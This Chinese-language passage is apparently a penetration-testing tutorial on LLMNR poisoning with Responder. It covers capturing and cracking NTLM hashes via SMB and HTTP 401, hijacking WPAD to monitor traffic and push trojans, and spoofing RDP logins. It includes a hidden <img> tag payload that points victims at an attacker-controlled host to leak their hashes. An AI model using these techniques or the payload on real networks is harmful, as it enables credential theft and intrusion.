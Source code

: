 在局域网中，名称解析的行为是非常频繁的，只要有使用计算机名称，准确的说是 NetBIOS名称或非 FQDN 域名的地方都会产生名称解析，如 PING 主机名称，使用主机名称连接各种服务等等。Windows 系统也默认启用了 NetBIOS 和 LLMNR。这就使得 LLMNR Poison 攻击的实战价值有所提升。但实际上在实战中使用 LLMNR Poison 攻击时，会遇到一些问题。如，5355 端口被占用，防火墙拦截等，不过这些小问题都是可以解决掉的，另外还有一些不可控的客观因素，如网络稳定性等等。但这些问题也不是非常普遍不可解决的。

下面提供几种在实战中可用的 LLMNR Poison 攻击思路。以 Responder 做为攻击工具进行演示。

**劫持会话获取 HASH**

通过劫持会话获取受害者的 HASH，有两种常见的攻击场景。

*   劫持 SMB 会话获取 HASH  
    利用 LLMNR Poison 攻击劫持 SMB 会话与 SMBRelay 攻击相似，本质上都是对 SMB 的会话进行劫持，但是 SMBRelay 攻击是被动式的攻击，同时，攻击者所劫持的 SMB 会话只有在该会话本身是一次成功的会话的情况下才能拿到目标服务器的权限。利用 LLMNR Poison 攻击劫持 SMB 会话，只要有主机使用计算机名称访问其他主机的共享时就可以得到发起共享请求的主机的 HASH。但是这个 HASH 只能用于爆破（因为已知了挑战），无法直接登录主机。可以将 LLMNR Poison 攻击 与 SMBRelay 攻击结合起来，提升攻击力。
*   使用 HTTP 401 认证获取 HASH  
    使用 HTTP 401 认证同样也可以获取到客户端机器的 HASH。

攻击的方式大致为：

*   结合社工欺骗受害者访问一个正常的但已嵌入类似于**`<img/src=\\SECLAB-HER0IN\1.jpg width=0 height=0>`**或**`<img/src=http:\\SECLAB-HER0IN\1.jpg width=0 height=0>`**的网页。
*   当受害者访问网页后，如果受害者主机系统版本是 Vista 之后的，就会产生 LLMNR 名称解析。
*   此时攻击者的主机（已启动了 Responder ）就会收到受害者主机的 HASH。
*   当然也可以一直启动 Responder 进行监听，不需要其他额外的操作，只要有主机使用计算机名称请求 SMB 或 WEB 服务就可以得到相应主机的 HASH。

![](http://drops.javaweb.org/uploads/images/72c089108a1c891e2f7b2e2bd9b40115c3610b1e.jpg)

图 12：SMB 会话劫持获取 HASH

![](http://drops.javaweb.org/uploads/images/01042d2d48b13a614645855b91f5f031c460fe54.jpg)

图 13：使用 John 破解 SMB 会话劫持到的 HASH

**劫持会话进行钓鱼**

使用 HTTP 401 认证服务器进行钓鱼。

![](http://drops.javaweb.org/uploads/images/3fc87bcf2c89d0c127954c2948df4fb95c1ae62a.jpg)

图 14： HTTP 401 认证服务器钓鱼

![](http://drops.javaweb.org/uploads/images/a686e8d7ea4ae438e568869c5d87e07d37f6bc9b.jpg)

图 15： “钓鱼”攻击获取到了 HASH

**劫持 WPAD 获取上网记录**

在 Windows 系统中，默认启用了 WPAD 功能，可以对**IE 浏览器-工具-internet-连接-局域网设置-自动检测设置**和 系统服务中的**WinHttpAutoProxySvc**服务进行开关设置。

启用了 WPAD 的主机，会持续请求名为**WPAD**的主机名称，因此可以利用 LLMNR Poison 攻击更改受害者主机的浏览器代理设置。这样就可以在攻击者自己的代理服务器中看到受害者的上网浏览记录，也可以在受害者正在访问的网页中嵌入任何你想要嵌入的恶意脚本代码，如各种钓鱼，弹框认证，下载文件等等。另外，由于 WPAD 是一个系统的 HTTP 代理设置，所以 Windows 更新也会使用这个代理，这样就可以利用 Windows 更新将木马下载到受害者主机并自动执行。

但是 WPAD 在实战中也同样会受到各种不可控的客观因素的影响。只有手动设置了浏览器代理配置，通过 WPAD 的代理上网的效果才比较明显。

**“剑走偏锋” 获取服务器密码**

上面已经提到，在局域网中，只要有主机使用其他主机的名称请求服务就可以产生名称解析行为。假定有这样一个场景，在渗透到内网后，进一步渗透的条件很苛刻，这时候你“黔驴技穷”(:0)了，为了能在内网中拿到一台服务器，以便“站稳脚跟”。或许你可以采用“剑走偏锋”的思路，利用 LLMNR Poison 攻击进行 3389 连接欺骗，拿到服务器的密码，这样做的确有些冒险，可是总好过你直接修改 IP 去欺骗登录要好很多(真有人这么做过 ~,~!)。
